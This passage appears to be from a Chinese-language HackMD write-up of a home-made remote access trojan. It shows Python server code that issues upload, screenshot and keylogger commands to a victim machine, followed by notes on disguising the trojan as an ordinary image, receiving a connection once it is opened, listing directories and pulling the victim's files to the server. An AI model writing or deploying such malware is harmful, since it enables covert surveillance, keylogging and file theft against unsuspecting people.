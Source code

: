 ```python
    elif command[:6]=="upload":
        try:
            with open(command[7:],"rb")as file_up:
                content = file_up.read()
                reliable_send(base64.b64encode(content).decode("ascii"))
        except:
            failed = "[!!] Fail to upload!"
            reliable_send(failed)
            print(failed)
    elif command[:10] =="screenshot":
        image = reliable_recv()
        if image[:4]!= "[!!]":
            ss_file ="screen_" + str(ip) + datetime.datetime.now().strftime("_%Y-%m-%d_%H%M%S")+".jpg"
            with open(ss_file,"wb") as screen:
                screen.write(base64.b64decode(image))
        else:
            print(image)
    elif command[ :12] =="keylog_start":
        continue
    
    else:
        result =reliable_recv()
        print(result)

s.close()
```

死亡步驟
![](https://hackmd.io/_uploads/H1vFZSAUn.png)
看起來很普通的圖片打開變這樣
![](https://hackmd.io/_uploads/Sy_qbB0L2.png)
還是很普通

但server已經連到
![](https://hackmd.io/_uploads/B1W3ZrA8n.png)
![](https://hackmd.io/_uploads/S1l6ZHC83.png)

dir
![](https://hackmd.io/_uploads/SybyfrA8h.png)

download 1.jpg

![](https://hackmd.io/_uploads/SJWzGSAIn.png)

就被載到server端了
![](https://hackmd.io/_uploads/r1xgXfrCL3.png)

upload
